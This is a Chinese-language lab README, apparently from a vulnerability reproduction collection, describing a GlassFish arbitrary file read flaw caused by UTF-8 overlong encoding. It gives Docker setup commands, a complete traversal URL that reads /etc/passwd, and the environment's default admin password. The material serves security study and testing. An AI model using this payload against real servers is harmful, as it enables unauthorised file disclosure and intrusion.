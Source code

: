 # GlassFish 任意文件读取漏洞

## 原理

参考链接：

- <https://www.trustwave.com/Resources/Security-Advisories/Advisories/TWSL2015-016/?fid=6904>
- <https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html>

GlassFish在解码URL时，没有考虑UTF-8 Overlong Encoding攻击，导致将`%c0%ae`解析为ASCCII字符的`.`（点）。利用`%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/`来向上跳转，达到目录穿越、任意文件读取的效果。

## 漏洞复现

编译、运行测试环境

```
docker compose build
docker compose up -d
```

环境运行后，访问`http://your-ip:8080`和`http://your-ip:4848`即可查看web页面。其中，8080端口是网站内容，4848端口是GlassFish管理中心。

访问`https://your-ip:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd`，发现已成功读取`/etc/passwd`内容：

![](1.png)

## 额外说明

本环境超级管理员密码在`docker-compose.yml`中设置，默认为`vulhub_default_password`，在4848端口利用该密码可以登录管理员账户。
